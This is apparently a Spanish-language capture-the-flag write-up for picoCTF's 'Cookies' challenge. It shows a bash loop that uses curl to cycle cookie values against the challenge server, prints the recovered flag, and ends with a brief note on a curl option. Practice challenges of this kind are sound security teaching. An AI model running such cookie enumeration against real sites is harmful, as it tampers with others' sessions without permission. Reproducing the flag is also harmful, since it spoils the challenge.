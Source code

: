 # Cookies
# Objetivos
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

# Solucion
```bash

james-backster-picoctf@webshell:~$ for i in {1..20}; do curl -s  http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep pico 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```

# Notas adicionales
|Comando|Descripcion|
|---|---|
|-I|es la nueva version de -X HEAD utilizando curl|

# Referencias
